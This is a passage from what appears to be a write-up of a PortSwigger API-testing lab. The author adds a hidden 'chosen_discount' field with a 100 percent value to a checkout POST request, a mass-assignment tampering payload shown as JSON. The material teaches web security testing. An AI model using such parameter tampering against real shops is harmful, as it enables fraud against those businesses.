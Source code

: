 ![](../../.gitbook/assets/portswigger-api-writeup-image-13.png)

The POST request just has the `chosen_products` variable:

![](../../.gitbook/assets/portswigger-api-writeup-image-14.png)

Since there's a `chosen_discount` variable, I just added that to the POST request:

```json
{
"chosen_discount":{
    "percentage":100
},

"chosen_products":[
    {"product_id":"1",
    "quantity":1}
    ]
}
```

Sending the above solves the lab.
